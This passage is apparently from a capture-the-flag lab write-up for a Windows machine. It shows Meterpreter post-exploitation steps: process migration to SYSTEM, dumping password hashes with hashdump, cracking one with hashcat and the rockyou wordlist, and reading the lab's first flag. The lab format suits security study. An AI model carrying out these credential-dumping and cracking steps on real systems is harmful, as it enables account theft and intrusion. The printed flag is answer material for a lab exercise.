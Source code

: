 
## Meterpreter

After I got the ugpraded shell, I ran the command `shell` to open a dos shell then `whoami` to verify I was indeet NT AUTHORITY\SYSTEM. Then I ran the `ps` command to list all running processes, and `migrate` to a process running at NT AUTHORITY\SYSTEM

### Cracking the password

Dump all the hashes of the users on this machine. You can do this because you are on an elevated shell.

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```

I copied this hash into a file and used hashcat to crack it. This [article](https://pentesthacker.com/2020/12/27/kali-hashcat-and-john-the-ripper-crack-windows-password-hashdump/) shows how to do that.

```
└─$ hashcat -m 1000 --show hash /usr/share/wordlists/rockyou.txt
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22

```

## Finding the Flags

The first flag can be found at the root of the machine.

```
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2009-07-13 23:18:56 -0400  $Recycle.Bin
40777/rwxrwxrwx   0      dir   2009-07-14 01:08:56 -0400  Documents and Settings
40777/rwxrwxrwx   0      dir   2009-07-13 23:20:08 -0400  PerfLogs
40555/r-xr-xr-x   4096   dir   2009-07-13 23:20:08 -0400  Program Files
40555/r-xr-xr-x   4096   dir   2009-07-13 23:20:08 -0400  Program Files (x86)
40777/rwxrwxrwx   4096   dir   2009-07-13 23:20:08 -0400  ProgramData
40777/rwxrwxrwx   0      dir   2018-12-12 22:13:22 -0500  Recovery
40777/rwxrwxrwx   4096   dir   2018-12-12 18:01:17 -0500  System Volume Information
40555/r-xr-xr-x   4096   dir   2009-07-13 23:20:08 -0400  Users
40777/rwxrwxrwx   16384  dir   2009-07-13 23:20:08 -0400  Windows
100666/rw-rw-rw-  24     fil   2018-12-12 22:47:39 -0500  flag1.txt
0000/---------    0      fif   1969-12-31 19:00:00 -0500  hiberfil.sys
0000/---------    0      fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cat flag1.txt
flag{access_the_machine}meterpreter > 

```
